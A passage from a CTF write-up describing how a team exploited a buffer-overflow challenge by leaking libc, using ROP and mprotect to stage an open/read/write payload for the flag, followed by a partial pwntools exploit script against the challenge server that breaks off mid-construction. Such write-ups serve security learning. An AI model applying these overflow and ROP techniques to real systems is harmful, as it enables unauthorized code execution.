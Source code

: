 This worked some times. In some instances the addresses were totally different. I didn't bother to figure out what was going on since it wasn't hard to get this particular case working and I wanted to move on to the exploitation. 

We were informed that ASLR was disabled on the server, and there was no stack canary. The only obstruction was NX. I grabbed libc from the server hosting Pwn100 in the hopes that it was the same one used for this challenge. I went to bed and handed the challenge off to barrebas. 

Barrebas figured out how to leak libc's base address, and from there he was able to modify the exploit to leak more data out. Thanks to that, we had access to a wider range of ROP gadgets and the functions in libc. He also found the socket file descriptor used by the server to communicate with us. 

We initially tried to get a shell, however nothing was working. A reverse shell I setup would connect briefly and then disconnect before I could do anything. Locally it worked, but remotely it was having issues. So much for the easy route. Based off Pwn100, I assumed the flag was in file called flag, and so I started to put together an exploit that would open the flag file, read it, and then write it back to us.

Due to NX, the stack wasn't executable. I decided to use mprotect() on addresses 0x00601000 to 0x00602000 to make it RWX. The plan was to copy the second stage payload in there which would perform the actual open/read/write of the flag. 

```
#!/usr/bin/env python
from pwn import *
import time
import sys

context(os="linux", arch="amd64")

print "saving binary as \"mybin\""
f = open("mybin", "w")

r = remote("52.20.10.244", 8888)
d  = r.recvall()

f.write(d)
f.close()

e = ELF("./mybin")


bufsiz = e.read(0x400781, 7)[3:]
port = e.read(0x4007d4, 3)[1:]
toread = e.read(0x40082e, 3)[1:]

bufsiz = u32(bufsiz) - 8            # bufsiz is size of stack frame - 8
port = u32(port + "\x00\x00")
toread = u32(toread + "\x00\x00")

print "port:", port
print "toread:", toread
print "bufsiz:", bufsiz

# see if this binary is exploitable
if toread > bufsiz:
    print "exploitable!"

    r = remote("52.20.10.244", port)

    buf = ""
    buf += "A"*(bufsiz-len(buf))

    base = 0x400690
    write_at_got = 0x601018
    oneshotrce = 0x4652c
```